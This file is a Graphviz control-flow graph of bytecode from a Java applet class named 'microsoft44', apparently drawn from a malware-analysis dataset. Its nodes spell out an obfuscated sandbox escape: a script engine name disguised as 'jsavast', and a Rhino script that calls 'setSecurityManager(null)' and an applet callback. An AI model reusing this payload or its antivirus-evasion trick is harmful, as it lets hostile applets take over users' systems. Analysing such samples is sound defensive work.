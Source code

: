 digraph "" {
    "r0 := @this: microsoft44"
    "load.r r0"
    "r0 := @this: microsoft44"->"load.r r0";
    "new javax.swing.JList"
    "load.r r0"->"new javax.swing.JList";
    "dup1.r"
    "new javax.swing.JList"->"dup1.r";
    "push 1"
    "dup1.r"->"push 1";
    "newarray"
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "push 0"
    "dup1.r"->"push 0";
    "new javax.script.ScriptEngineManager"
    "push 0"->"new javax.script.ScriptEngineManager";
    "new javax.script.ScriptEngineManager"->"dup1.r";
    "specialinvoke <javax.script.ScriptEngineManager: void <init>()>"
    "dup1.r"->"specialinvoke <javax.script.ScriptEngineManager: void <init>()>";
    "push \"jsavast\""
    "specialinvoke <javax.script.ScriptEngineManager: void <init>()>"->"push \"jsavast\"";
    "push \"avast\""
    "push \"jsavast\""->"push \"avast\"";
    "push \"\""
    "push \"avast\""->"push \"\"";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <javax.script.ScriptEngineManager: javax.script.ScriptEngine getEngineByName(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <javax.script.ScriptEngineManager: javax.script.ScriptEngine getEngineByName(java.lang.String)>";
    "virtualinvoke <javax.script.ScriptEngineManager: javax.script.ScriptEngine getEngineByName(java.lang.String)>"->"dup1.r";
    "interfaceinvoke <javax.script.ScriptEngine: javax.script.Bindings createBindings()> 0"
    "dup1.r"->"interfaceinvoke <javax.script.ScriptEngine: javax.script.Bindings createBindings()> 0";
    "store.r r1"
    "interfaceinvoke <javax.script.ScriptEngine: javax.script.Bindings createBindings()> 0"->"store.r r1";
    "load.r r1"
    "store.r r1"->"load.r r1";
    "push \"applet\""
    "load.r r1"->"push \"applet\"";
    "push \"applet\""->"load.r r0";
    "interfaceinvoke <javax.script.Bindings: java.lang.Object put(java.lang.String,java.lang.Object)> 2"
    "load.r r0"->"interfaceinvoke <javax.script.Bindings: java.lang.Object put(java.lang.String,java.lang.Object)> 2";
    "pop"
    "interfaceinvoke <javax.script.Bindings: java.lang.Object put(java.lang.String,java.lang.Object)> 2"->"pop";
    "new java.lang.StringBuilder"
    "pop"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "push \"this.toString = function() {\tjava\""
    "dup1.r"->"push \"this.toString = function() {\tjava\"";
    "specialinvoke <java.lang.StringBuilder: void <init>(java.lang.String)>"
    "push \"this.toString = function() {\tjava\""->"specialinvoke <java.lang.StringBuilder: void <init>(java.lang.String)>";
    "push \".\""
    "specialinvoke <java.lang.StringBuilder: void <init>(java.lang.String)>"->"push \".\"";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "push \".\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"lang\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"lang\"";
    "push \"lang\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \".\"";
    "push \".\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"System\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"System\"";
    "push \"System\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \".\"";
    "push \".\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"setSecurityManager(null);\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"setSecurityManager(null);\"";
    "push \"setSecurityManager(null);\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"\tapplet.callBack();\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"\tapplet.callBack();\"";
    "push \"\tapplet.callBack();\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"\treturn String.fromCharCode(97 + Math.round(Math.random() * 25));\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"\treturn String.fromCharCode(97 + Math.round(Math.random() * 25));\"";
    "push \"\treturn String.fromCharCode(97 + Math.round(Math.random() * 25));\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"};\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"};\"";
    "push \"};\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"e = new Error();\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"e = new Error();\"";
    "push \"e = new Error();\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"e.message = this;\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"e.message = this;\"";
    "push \"e.message = this;\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"e\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"e\"";
    "push \"e\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"load.r r1";
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object eval(java.lang.String,javax.script.Bindings)> 2"
    "load.r r1"->"interfaceinvoke <javax.script.ScriptEngine: java.lang.Object eval(java.lang.String,javax.script.Bindings)> 2";
    "arraywrite.r"
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object eval(java.lang.String,javax.script.Bindings)> 2"->"arraywrite.r";
    "specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>"
    "arraywrite.r"->"specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>";
    "virtualinvoke <microsoft44: java.awt.Component add(java.awt.Component)>"
    "specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>"->"virtualinvoke <microsoft44: java.awt.Component add(java.awt.Component)>";
    "virtualinvoke <microsoft44: java.awt.Component add(java.awt.Component)>"->"pop";
    "goto return"
    "pop"->"goto return";
    "return"
    "goto return"->"return";
    "virtualinvoke <javax.script.ScriptException: void printStackTrace()>"
    "virtualinvoke <microsoft44: java.awt.Component add(java.awt.Component)>"->"virtualinvoke <javax.script.ScriptException: void printStackTrace()>";
}
